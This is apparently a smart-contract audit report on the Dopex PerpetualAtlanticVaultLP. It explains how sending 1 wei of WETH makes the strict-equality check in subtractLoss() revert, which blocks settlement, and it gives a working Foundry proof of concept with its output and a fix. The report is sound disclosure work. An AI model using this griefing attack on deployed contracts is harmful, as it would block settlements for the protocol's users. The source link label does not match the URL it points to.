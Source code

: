 # Dopex

The code under review can be found in [2022-05-cally](https://github.com/code-423n4/2023-08-dopex).

## Findings summary

| ID       | Title                                                                                                 | Summary |
| -------- | ----------------------------------------------------------------------------------------------------- | ------- |
| [M-01]() | `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS | High    |

## [M-01] `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS

### Vulnerability details

The `substractLoss()` function of PerpetualAtlanticVaultLP is called in the settlement proccess of PerpetualAtlanticVault and can revert and cause DoS if the malicious user sends 1 wei of collateral to the PerpetualAtlanticVaultLP.
When calling `settle()` in PerpetualAtlanticVault few actions are made:

1.  The collateral is transfered from PerpetualAtlanticVaultLP:

```solidity
 collateralToken.safeTransferFrom(
     addresses.perpetualAtlanticVaultLP,
     addresses.rdpxV2Core,
     ethAmount
   );
```

2. The `substractLoss()` is invoked with ethAmount:

```solidity
IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
    ethAmount
  );
```

The root cause of the issues is that `substractLoss()` uses strict equality in the require statement.

```solidity
require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
```

If prior to the settlement a malicious user transfers 1 wei of WETH to the PerpetualAtlanticVaultLP, this check will always fail since `collateral.balanceOf(address(this)) - ethAmount` will be greater than `_totalCollateral - ethAmount` by 1 wei.

### Impact

The settlement proccess will be DoS'ed.

### Proof Of Concept

```solidity
function testSettleRevert() public {
      // Mint weth to a malicious user
      address maliciousUser = address(1);
      weth.mint(maliciousUser, 1000 * 1e18);

      // make bond
      rdpxV2Core.bond(5 * 1e18, 0, address(this));
      rdpxV2Core.bond(1 * 1e18, 0, address(this));

      vault.addToContractWhitelist(address(rdpxV2Core));
      uint256[] memory _ids = new uint256[](1);

      _ids[0] = 0;
      rdpxPriceOracle.updateRdpxPrice(1e7);
      // the vault balance before attack
      console.log(
          "VaultLp Balance Before attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral before Attack",
          vaultLp.totalCollateral()
      );

      // send 1 wei to PerpetualAtlanticVaultLp
      vm.prank(maliciousUser);
      weth.transfer(address(vaultLp), 1);
      // balance after malicious user transfered 1 wei
      console.log(
          "VaultLp Balance After Attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after Attack",
          vaultLp.totalCollateral()
      );
      // the settlement reverts due to the check in PerpetualAtlanticVaultLP
      vm.expectRevert("Not enough collateral was sent out");
      rdpxV2Core.settle(_ids);

      // Skip 8 days to call PerpetualAtlanticVault.updateFundingPaymentPointer() to invoke addProceeds()
      skip(691200);
      vault.updateFundingPaymentPointer();
      // The balance is now updated as well as collateral becuase of the addProceeds() function
      console.log(
          "VaultLp Balance After addProceeds() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after addProceeds() is called",
          vaultLp.totalCollateral()
      );
      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);

      // trying to use deposit to fix the issue
      vaultLp.deposit(1e18, address(msg.sender));
      console.log(
          "VaultLp Balance After deposit() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after deposit() is called",
          vaultLp.totalCollateral()
      );

      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);
  }

```

The output of the state:

```
VaultLp Balance Before attack: 100000000000000000000
VaultLp _totalCollateral Before Attack 100000000000000000000

VaultLp Balance After Attack: 100000000000000000001
VaultLp _totalCollateral After Attack 100000000000000000000

VaultLp Balance After addProceeds() is called: 100367540499850000000
VaultLp _totalCollateral after addProceeds() is called 100367540499849999999

VaultLp Balance After deposit() is called: 101367540499850000000
VaultLp _totalCollateral after deposit() is called 101367540499849999999
```

As you can see `_totalCollateral` is always 1 wei lesser than contract balance.

### Recommended Mitigation Steps

Either remove the require check or make it less strict:

```diff
- require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
+ require(collateral.balanceOf(address(this)) >= _totalCollateral - loss,"Not enough collateral was sent out");
```

